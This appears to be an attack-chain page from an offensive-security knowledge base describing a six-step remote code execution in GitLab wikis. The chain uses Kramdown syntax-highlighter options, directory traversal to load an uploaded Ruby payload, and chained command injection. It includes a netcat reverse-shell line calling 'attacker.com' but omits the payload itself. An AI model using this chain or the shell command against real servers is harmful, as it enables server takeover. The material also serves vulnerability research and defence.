

# RCE in GitLab Wiki via Kramdown Syntax Highlighter Options and Directory Traversal

Multi-stage attack chain demonstrating remote code execution in GitLab by exploiting unsafe inline options in Kramdown during Wiki page rendering for .rmd files. Attackers with wiki push access can upload a malicious Ruby payload via a snippet, use directory traversal to load it through the Rouge syntax highlighter's Redis driver, and execute arbitrary Ruby code, leading to server compromise. A chained command injection via the get_process_mem gem allows further escalation to reverse shells.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/git]]
- [[tools/nc-netcat]]

### Target Environment

- GitLab instance (tested on version with Ruby 2.7.2, Rails, Kramdown, Rouge)
- Services: PostgreSQL 12.5, Redis 6.0.10, Sidekiq 5.2.9, Puma, nginx, GitLab Shell 13.16.1
- Tech stack: Ruby 2.7.2, Rails, Kramdown, Rouge, GitHub::Markup, redis-rb, get_process_mem
- Linux-based server

### Initial Access Requirements

- User account with wiki push access to a project
- Ability to create snippets and upload files
- SSH access for git clone (or HTTPS with credentials)

## Detailed Attack Procedures

### Step 1: Upload Malicious Ruby Payload
procedure: [[procedures/Upload-Malicious-Ruby-Payload-via-GitLab-Snippet]]

**Objective**: Upload a Ruby payload file via GitLab snippet to a predictable path for later traversal.

**Instructions**: Create a new snippet, attach a .rb file with the payload, and note the upload path.

**Expected Output**: Snippet created with file uploaded to /var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/[hash]/payload.rb.

**Success Indicators**:
- File upload successful
- Path noted for traversal

### Step 2: Initialize Project Wiki
procedure: [[procedures/Initialize-GitLab-Project-Wiki]]

**Objective**: Set up a project with an initialized wiki repository.

**Instructions**: Create a new project and initialize the wiki home page.

**Expected Output**: Wiki repository ready for cloning.

**Success Indicators**:
- Project created
- Wiki initialized

### Step 3: Clone Wiki Repository
procedure: [[procedures/Clone-GitLab-Wiki-Repository]]

**Objective**: Obtain a local copy of the wiki for modification.

**Instructions**: Use [[commands/git-clone-wiki-repo]] to clone the wiki:

```bash
git clone git@gitlab.example.com:root/project.wiki.git
```

**Expected Output**: Local wiki repo cloned.

**Success Indicators**:
- Repository cloned successfully
- Local files accessible

### Step 4: Create Malicious RMD File
procedure: [[procedures/Create-Malicious-RMD-File-with-Kramdown-Exploit]]

**Objective**: Craft an .rmd file with Kramdown options to trigger payload load via directory traversal.

**Instructions**: Create page1.rmd with exploit syntax in the local repo.

**Expected Output**: Malicious .rmd file prepared.

**Success Indicators**:
- File contains valid Kramdown options and code block
- Path traversal string ready

### Step 5: Commit and Push Malicious File
procedure: [[procedures/Commit-and-Push-Malicious-File-to-Wiki]]

**Objective**: Upload the malicious file to the wiki repo to enable rendering.

**Instructions**: Use [[commands/git-add-commit-push]] to stage, commit, and push:

```bash
git add -A . && git commit -m "Add malicious page" && git push
```

**Expected Output**: Changes pushed to remote wiki.

**Success Indicators**:
- Commit and push successful
- File visible in wiki sidebar

### Step 6: Trigger RCE and Verify
procedure: [[procedures/Trigger-RCE-by-Rendering-Wiki-Page]]
procedure: [[procedures/Verify-Payload-Execution-and-Command-Injection]]

**Objective**: Render the page to execute the payload and verify via file write; chain to command injection for shell.

**Instructions**: Refresh wiki, click page1 to render. Check logs for execution attempt. Verify with [[commands/cat-tmp-vakzz]]:

```bash
cat /tmp/vakzz
```
For chaining, inject via get_process_mem pid option for reverse shell using [[commands/nc-reverse-shell]]:

```bash
nc attacker.com 12345
```

**Expected Output**: Payload executes, /tmp/vakzz contains "vakzz was here"; reverse shell connects.

**Success Indicators**:
- Log errors indicate traversal attempt
- File written confirming RCE
- Shell access established

## Attack Chain Summary

### Key Achievements

1. Arbitrary Ruby code execution via Kramdown Rouge formatter control
2. Directory traversal in Redis driver to load uploaded payload
3. Chained command injection in get_process_mem for reverse shell

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Command-Line Interface]] Command and Scripting Interpreter
- [[Hijack Execution Flow]] Hijack Execution Flow

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
